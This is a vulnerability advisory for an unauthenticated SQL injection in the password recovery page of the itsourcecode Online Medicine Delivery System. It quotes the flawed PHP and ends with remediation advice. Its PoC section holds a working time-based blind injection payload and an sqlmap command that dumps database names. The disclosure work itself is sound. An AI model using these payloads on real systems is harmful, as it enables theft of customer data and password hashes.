

# itsourcecode Online Medicine Delivery System V1.0 SQL Injection Vulnerability via 'phonenumber' Parameter in '/passwordrecover.php'
---

## 1. Product Information
| Field | Value |
| --- | --- |
| **Product Name** | Online Medicine Delivery System with SMS Notification |
| **Product Link** | [https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/](https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/) |
| **Vendor** | itsourcecode |
| **Affected Version** | V1.0 |
| **Authentication Required** | No, exploitable without any authentication |


---

## 2. Vulnerability Type
**SQL Injection**

---

## 3. Vulnerability Description
The password recovery interface `/passwordrecover.php` of Online Medicine Delivery System contains an SQL injection vulnerability. The interface receives the user-submitted `phonenumber` parameter and directly concatenates it into two SQL statements without any filtering or escaping:

1. **SELECT query**: In the `Customer::find_phone()` method, `WHERE PHONE={$phone}` enables numeric-type injection
2. **INSERT query**: In `passwordrecover.php:27`, `$_SESSION['phonenumber']` is directly concatenated into the `INSERT INTO messageout` statement

The particularity of this vulnerability lies in the **SELECT+INSERT dual injection**: the `phonenumber` parameter is first passed into a SELECT query to check whether the phone number exists, and if the query succeeds, it is further concatenated into an INSERT statement writing to the `messageout` table. An attacker can extract sensitive data from the database by constructing malicious SQL statements without any authentication. Since the query results are not directly echoed to the page, data can only be extracted through time-based blind injection.

**Affected Code**:

`include/customers.php:62-66`

```php
function find_phone($phone=""){
    global $mydb;
    $mydb->setQuery("SELECT * FROM ".self::$tblname." 
        Where PHONE= {$phone} LIMIT 1");
```

`passwordrecover.php:14-29`

```php
$_SESSION['phonenumber'] = $_POST['phonenumber'];
$customer = New Customer();
@$res = $customer->find_phone($_SESSION['phonenumber']);
if ($res) {
    $sql = "INSERT INTO `messageout` (`Id`, `MessageTo`, `MessageFrom`, `MessageText`) 
            VALUES (Null, '".$_SESSION['phonenumber']."','Janno','".'Your code is ' .$_SESSION['recovery_code']."')";
    $mydb->setQuery($sql);
    $mydb->executeQuery();
}
```

---

## 4. Impact
+ **Full Database Data Disclosure**: Through time-based blind injection, arbitrary data from any database and any table can be extracted character by character, including user password hashes, customer personal information, etc.
+ **No Authentication Required**: This interface is a password recovery page, accessible and exploitable without any login

---

## 5. PoC
**Time-based Blind Injection**:

```plain
POST /passwordrecover.php HTTP/1.1
Host: ******
Content-Type: application/x-www-form-urlencoded
Connection: close

phonenumber=1 AND (SELECT 5222 FROM (SELECT(SLEEP(5)))anbO)&recover-submit=1
```

**sqlmap verification**:

```bash
python sqlmap.py -u "http://******/passwordrecover.php" --data="phonenumber=1&recover-submit=1" -p phonenumber --batch --dbs --dbms=mysql --technique=T --time-sec=2
```

Result:

```plain
available databases [6]:
[*] information_schema
[*] medicinedb
[*] mysql
[*] performance_schema
[*] roocms
[*] sys
```

sqlmap execution screenshot:



---

## 6. Remediation
1. **Use Parameterized Queries**
2. **Input Type Validation**: The `phonenumber` parameter should be numeric only
3. **Remove Secondary Concatenation in INSERT**: `$_SESSION['phonenumber']` should be validated before being stored in the session, and should not be directly used again in the INSERT statement

